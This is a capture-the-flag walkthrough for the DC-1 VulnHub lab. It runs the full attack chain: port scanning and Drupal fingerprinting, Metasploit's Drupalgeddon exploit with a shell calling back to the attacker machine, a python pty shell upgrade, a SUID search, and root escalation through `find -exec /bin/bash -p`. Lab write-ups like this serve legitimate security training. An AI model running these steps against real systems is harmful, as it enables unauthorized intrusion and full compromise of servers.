

# DC: 1 Walkthrough

## Preparation
1. Download DC-1.ova file ([DC-1.ova](https://download.vulnhub.com/dc/DC-1.zip))

1. Import the OVA file in the VirtualBox

1. Set the network adapter to Host-only Adapter
    * Attached to: **Host-only Adapter**
    

1. Start the DC-1 virtual machine
    * Turn on the DC-1 virtual machine from the VirtualBox  
      

1. Confirm the IP address of the DC-1 virtual machine from the attack virtual machine  
    * `sudo netdiscover -i enp0s3 -r 192.168.56.0/24`  
      
      
        * 192.168.56.100: DHCP Server
        * **192.168.56.104**: DC-1 Server

1. Set the DC-1 IP address to the environment variance  
    * `export IP=192.168.56.104`  

## Reconnaissance
1. Do portscan using Nmap  
    * `sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
    
        * -sC: Scan with default script
        * -sV: Show software name and the version
        * -Pn: Do not confirm communication before port scan (We have already confirmed the DC-1 IP address.)
        * -p-: Scan all ports (from 0 to 65535 ports)
        * -oN: Output the scan results to the specified file

1. As we see the nmap result, we can attempt to access of 22, 80, and 111 ports.  

## Initial Access
1. Access the HTTP service using ParrotOS browser    
    * Enter `http://192.168.56.104:80`  
      

1. Confirm exisiting the "robots.txt file" 
    * Enter `http://192.168.56.104/robots.txt`  
      
        - "Disallow": Deny crawler access  

1. Access "/MAINTAINERS.txt
    * It implies the service uses Drupal version 7  
      

1. Use droopescan (CMS vulnerability scanner)
    * Set the target URL to the environment variance  
    `export URL="http://$IP:80/`  
    * Scan using droopescan  
    
        - 5 plugins
        - 2 theme
        - Possible versions (7.22 - 7.26)
        - Possible interesting URL (/user/login)

1. Investigate Exploits for Drupal
    * Access to the [Exploit Database](https://www.exploit-db.com/)  
    * Search exploitations for the following keywords  
    `drupal 7 remote`  
      
        - Memorize the "**Drupalgeddon**"

## Execution
1. Start Metasploit
    * Try to attack with "Drupalgeddon" vulnerability using Metasploit  
    Enter `msfconsole`   

1. Search vulnerability
    * Enter `search type:exploit drupal`  
    
        - Note "drupageddon" because it is a vulnerability for versions 7.0 to 7.31  

1. Set exploit module
    * Enter `use exploit/multi/http/drupal_drupageddon`  
    * Set the option  
      
        - RHOSTS: 192.168.56.104 (DC-1 server)
        - RPORT: 80 (As default is 80, we do not need to set it)
        - TARGETURI: / (As default is /, we do not need to set it)
        - LHOST: 192.168.56.101 (ParrotOS machine's IP address)

1. Execute the exploit module
    * Enter `run`  
      
        - Success to enter the "/var/www" directory in the DC-1 server
        - Found the flag file of "flag1.txt"

## Credential Access for general user
1. Confirm the flag1.txt file
    * We confirm the next hint from the file  
    

1. Take control of the interactive shell
    * Use the pyt module of Python  
      
        - Enter `shell`
        - Enter `which python`
        - Enter `python -c 'import pty; pty.spawn("/bin/bash")'`

1. Investigate the home directory files
    * Find useful information  
    
        - Although ".bash_history" may have attack hints in the previous command histories, there is no permission for the general users
        - The "flag4.txt" file may also not be useful
        - Unfortunately, there are no useful information to the root

1. Investigate the SUID file
    * Searching the SUID file is a standard approach for server intrusion
    * `find / -perm -u=s -type f 2> /dev/null`  
    
        - `find /`: Begins the search from the root directory
        - `-perm -u=s`: Matches files with the SUID bit set for the user/owner
        - `-type f`: Limits results to regular files
        - `2> /dev/null`: Redirects error output to /dev/null, suppressing them from the console  

## Privilege Escalation
1. Utilize the find command
    * Example commands for stealing a shell using find command
        - `find . -exec /bin/sh -p \; quit`
    * As this time steal bash shell, enter the following command
    
        - Enter `which find`
        - Enter `/usr/bin/find . -exec /bin/bash -p \; -quit`
        - Return root prompt (#)

## Credential Access for root user
1. Open "thefinalflag" file
    * Move to "root" directory  
    * Access the "thefinalflag.txt"  
    